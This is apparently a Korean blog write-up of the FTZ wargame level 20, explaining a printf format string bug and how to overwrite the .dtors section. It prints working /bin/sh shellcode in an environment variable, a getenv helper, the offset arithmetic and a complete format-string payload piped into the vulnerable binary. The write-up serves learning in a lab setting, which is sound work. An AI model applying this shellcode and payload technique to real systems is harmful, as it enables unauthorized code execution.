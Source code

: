 ```yaml
---
title:  "[FTZ] level 20"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-20 14:28:28

---
```


# level 20

**level20 / we are just regular guys**

힌트

![image](https://user-images.githubusercontent.com/69203345/146769708-8333d790-cccc-4544-991c-bbe0e30192a2.png)

bleh에 80바이트 크기 할당  
fgets함수로 bleh에 79바이트 만큼 입력받음

printf함수에서 포맷스트링 인자 %s를 사용하지 않고 매개변수로 받았다 bleh의 값에 형식 지정자가 있다면 그것이 그대로 넘어가면서 의도치 않게 다른 값들을 출력하게 된다. 이것이 바로 포맷 스트링 버그이다.

![image](https://user-images.githubusercontent.com/69203345/146771854-8fab4e74-81bc-4514-8fda-74c47f789878.png)

입력한 AAAA가 메모리 4번째에 보인다

gdb로 보지만 보여주지 않는다  
![image](https://user-images.githubusercontent.com/69203345/146774633-224253da-4ab2-4ebe-a995-6529ae971f3a.png)


ret주소를 바꿀수 없다면 .dtors를 이용하자  
gcc는 컴파일 할 때 .ctors와 .dtors 두 세그먼트를 생성한다.  
.ctors는 main() 전에 실행되고 -생성자  
.dtors는 main() 종료 후에 실행된다. -소멸자  
main()이 종료되고 .dtors함수가 실행되기 전에 쉘 코드 주소 넣으면 된다.

objdump를 사용해서 .dtors주소를 확인할 수 있음  
-objdump -s  
section 별로 나눠서 요청과 모든 내용를 보여줌
-objdump -j  
내가 원하는 세션만 출력  
[참고](https://plummmm.tistory.com/377)

![image](https://user-images.githubusercontent.com/69203345/146777002-bf27a8a7-ae9f-4a39-a5ec-572491976c53.png)  
dtros 주소: 08049594  
shell 코드를 넣어야할 주소: 08049598 (dtros 시작주소+4)


환경변수 설정
> export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

쉘코드의 주소  
![image](https://user-images.githubusercontent.com/69203345/146777939-f6f4c438-6f31-42a9-ace4-7e07ea79c7c9.png)
0xbffffc8d의 주소를 소멸자의 주소에 올려야 하는데 크기가 크기 때문에 2바이트씩 나눠서 진행  

0xfc8d (64653(10)) 는 0x08049598에 넣고
0xbfff (49151(10)) 는 0x0804959a에 넣게 됩니다.  
그리고 
AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%8x  에 대한 자릿수 40바이트를 0xfc8d에서 뺌  
64653-40 = 64613  

또 %n이 앞자릿수를 계산하므로 40+64613=64653을 
0xbfff에서도 빼주어야 합니다.그러나 0xbfff(49151)에서 빼게되면 음수가 되기 때문에 0xbfff앞에 1을 붙인 0x1bfff에서 빼서
50034가 됩니다.  
결국  
"AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08%8x%8x%8x%8x%64613c%n%50034c%n"  이 됨

페이로드  
AAAA+[.dtors의 주소(낮은주소)]+AAAA+[.dtors의 주소(높은주소)] + %8x%8x%8x(dummy) + %(쉘코드의 10진수 주소(fc8d) - (현재까지 쓴 바이트길이))c%n%(쉘코드의 10진수 주소(bfff) - (현재까지 쓴 바이트 길이))c%n  

AAAA+[\x98\x95\x04\x08]+AAAA+[\x9a\x95\x04\x08] + %8x%8x%8x(dummy) + %(64653(fc8d) - (40))c%n%(49151(bfff) - (40+64613))c%n  

>(python -c 'print "AAAA\x98\x95\x04\x08AAAA\x9a\x95\x04\x08"+"%8x%8x%8x"+"%64613c%n"+"%50034c%n"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146782535-1aee819a-f803-4cd1-8931-4e7f76ef2950.png)

처음 풀어보는 fsb문제 였다 제ㅔㅔㅔㅔㅔㅔㅔ일 어려워ㅓㅓㅓㅓㅓㅓㅓㅓㅓㅓㅓㅓㅓ


[참고한 블로그](https://mandu-mandu.tistory.com/43?category=692689)